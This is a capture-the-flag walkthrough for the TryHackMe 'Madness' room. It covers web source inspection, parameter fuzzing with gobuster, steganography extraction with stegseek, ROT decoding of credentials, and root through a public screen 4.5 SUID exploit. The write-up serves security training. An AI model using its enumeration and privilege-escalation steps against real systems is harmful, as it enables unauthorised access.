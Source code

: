 ```yaml
---

title: Walkthrough - Madness
published: true
---
```


Security, Steganography, Web, Challenge. Will you be consumed by madness?

![](/assets/madness01.png)

[https://tryhackme.com/room/madness](https://tryhackme.com/room/madness)

* * *

## Notes

2 ports, 22 ssh and 80 http server.

Inspect source and find comment

```
<img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
        <span class="floating_element">
```

- ``wget http://10.10.205.63/thm.jpg``
- ``hexeditor`` shows this jpg is set as a png. lets try to edit the file signature to be able to read it.
- using JFIF file signature header (``FF D8 FF E0 00 10 4A 46 49 46 00 01``) with ``hexeditor`` we can now read the file in ``ristretto``

![](/assets/madness02.png)

- found hidden directory ``/th1s_1s_h1dd3n``
- inspecting the source

```
<div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>

<p>That is wrong! Get outta here!</p>
</div>
```

We need a secret to get access, so lets create a simple python script to make a list of 0-99. 

- ``numbers.py``

```python
for number in range(-1, 100):
	print(number)
```

- ``python3 numbers.py > numbers.txt``
- then fuzz ``gobuster fuzz -u http://10.10.205.63/th1s_1s_h1dd3n/?secret=FUZZ -w numbers.txt --no-error``
- one has a longer length ``http://10.10.205.63/th1s_1s_h1dd3n/?secret=73``
- where we get a new clue

```
<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```

``hint - There's something ROTten about this guys name!``

Finally after hours of trying to decipher the above code, it turded out to be a password for the file hidden in the origional JPG that we found.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Madness]
└─$ stegseek -sf thm-edited.jpg -wl secret.txt                               
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "y2RPJ4QaPF!B"
[i] Original filename: "hidden.txt".
[i] Extracting to "thm-edited.jpg.out".
```

- ``cat thm-edited.jpg.out``

```
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

- and decrupting rot-10 we get the username ``joker``

- the header pic of the cheshire car smile contains another hidden text file..cheaters.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Madness]
└─$ cat 5iW7kC8.jpg.out 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

* * * 

## What is the user flag?

![](/assets/madness03.png)

* * * 

## What is the root flag?

Potential Escalation Vectors

- ``find / -perm -u=s -type f 2>/dev/null``
- ``searchsploit screen 4.5``
- ``cp /usr/share/exploitdb/exploits/linux/local/41154.sh .``
- wget it over and ``./41154.sh`` to get root

![](/assets/madness04.png)

* * * 

